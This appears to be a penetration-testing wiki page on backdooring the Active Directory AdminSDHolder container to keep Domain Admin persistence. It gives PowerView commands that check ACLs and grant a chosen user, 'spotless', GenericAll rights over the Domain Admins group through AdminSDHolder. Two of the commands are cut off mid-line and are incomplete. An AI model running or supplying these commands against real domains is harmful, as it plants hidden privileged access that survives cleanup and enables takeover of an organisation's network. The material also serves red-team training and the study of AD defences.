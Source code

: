 # AdminSDHolder

## AdminSDHolder

AdminSDHolder is a special AD container with some "default" security permissions that is used as a template for protected AD accounts and groups (like Domain Admins, Enterprise Admins, etc.) to prevent their accidental and unintended modifications, and to keep them secure.

Once you have gained Domain Admin privileges, `AdminSDHolder` container can be abused by backdooring it by giving your user `GenericAll` privileges, which effectively makes that user a Domain Admin.

**Check if student has replication rights**

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference 
```

**Check if user got generic all against domain admins group**

```
Get-ObjectAcl -SamaccountName “Domain Admins” –ResolveGUIDS | ?{$_.identityReference -match ‘<username>’}
```

## Execution

Backdooring the AdminSDHolder container by adding an ACL that provides user `spotless` with `GenericAll` rights for `Domain Admins` group:

```
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName spotless -Verbose -Rights All
```

Now, confirming that the user spotless has got `GenericAll` privileges against `Domain Admins` group:

```csharp
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'spotl
```
